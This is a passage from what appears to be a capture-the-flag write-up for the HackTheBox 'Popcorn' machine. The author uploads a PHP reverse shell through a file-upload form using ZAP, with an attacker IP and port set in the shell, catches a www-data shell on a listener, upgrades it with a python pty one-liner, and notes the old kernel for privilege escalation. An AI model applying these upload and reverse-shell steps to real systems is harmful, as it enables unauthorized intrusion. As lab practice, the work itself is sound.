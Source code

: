 I try to upgrade to a bash shell with python:
 
```
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
```
 
But the shell is flaky and times out, I need a better shell but my php sucks.
Luckily Kali comes equipped with webshells.
 
I reactivate the proxy on FireFox for ZAP, only this time when I replay I also specify my IP address and 1337 as the port number as well as the Content Type:
 
```
-----------------------------1429460769362258019814915645
Content-Disposition: form-data; name="file"; filename="php-reverse-shell.php"
Content-Type: application/x-php
 
.
.
.
 
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.34';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
 
```
 
This time my listener returns:
 
```
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.6] 54293
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
00:06:57 up  2:08,  0 users,  load average: 3.13, 2.86, 1.74
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
```
 
and when I upgrade to bash:
 
``` sh
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
```
 
I get:
 
```
www-data@popcorn:/$
```
 
Typically I now would hammer through a few different enumeration techniques, following a guide like g0tmi1k's awesome introduction to [Basic Linux Privilege Escalation] (https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/), however I'm instantly drawn to the uname output my shell gave me:
 
```
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```
 
